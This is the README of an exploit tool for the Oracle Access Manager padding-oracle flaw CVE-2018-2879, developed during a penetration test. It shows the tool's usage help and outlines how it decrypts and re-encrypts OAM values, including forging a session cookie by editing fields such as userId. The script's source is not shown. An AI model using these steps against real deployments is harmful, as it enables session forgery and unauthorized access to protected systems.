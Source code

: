 # Oracle-OAM-Padding-Oracle-CVE-2018-2879-Exploit

### Introduction
This exploit was developed during pentesting activity against oracle OAM 11.1.2.3.0. It was developed based on the technical description by sec-consult
```
https://www.sec-consult.com/en/blog/2018/05/oracle-access-managers-identity-crisis/
```

### Requirments
The exploit depend on python-paddingoracle it can be downloaded from here
```
https://github.com/mwielgoszewski/python-paddingoracle
```
### How the exploit works
```
# python oracle-oam-exploit.py -h

#######    #    #     #    #######
#     #   # #   ##   ##    #       #    # #####  #       ####  # #####
#     #  #   #  # # # #    #        #  #  #    # #      #    # #   #
#     # #     # #  #  #    #####     ##   #    # #      #    # #   #
#     # ####### #     #    #         ##   #####  #      #    # #   #
#     # #     # #     #    #        #  #  #      #      #    # #   #
####### #     # #     #    ####### #    # #      ######  ####  #   #
Oracle Padding Oracle
                                coded by: Mostafa Soliman

usage: oracle-oam-exploit.py [-h] [-e ENCRYPT] [-d DECRYPT] [-v] URL

positional arguments:
  URL                   Target resource URL

optional arguments:
  -h, --help            show this help message and exit
  -e ENCRYPT, --encrypt ENCRYPT
                        Encrypt plain text data
  -d DECRYPT, --decrypt DECRYPT
                        Decrypt base64 encode cipher text
  -v, --verb            Show decrypt block info

```
The exploit recieve the URL of the resource which require oracle OAM authentication. It does the below steps:
1. find the correct length that results in adding new padding block
2. brute-force the correct prefix that will be used in future encryption and decryption (magic block)

The pentester can specify any encrypted value (encquery, encreplay, cookie) he wish to decrypt using the ```-d``` flag.

The pentester can specify any plain text value he wish to encrypt using the ```-e``` flag.

### Constructing a fake cookie
by reversing oracle OAM sdk we can see that the cookie consists of the below structure
```
Salt= ACL= AuthId= Ip= TCT= SessionId= userId= validate=BASE64Encode(MD5(Salt+AuthId+Ip+ACL+TCT+SessionId))

```
So to build a cookie, get a valid plain text one using ```-d``` flag, modify it then encrypt it again using ```-e```.

### Example of decrypting a cookie
![Alt text](example/1.jpg?raw=true "CMD")
![Alt text](example/2.JPG?raw=true "output")
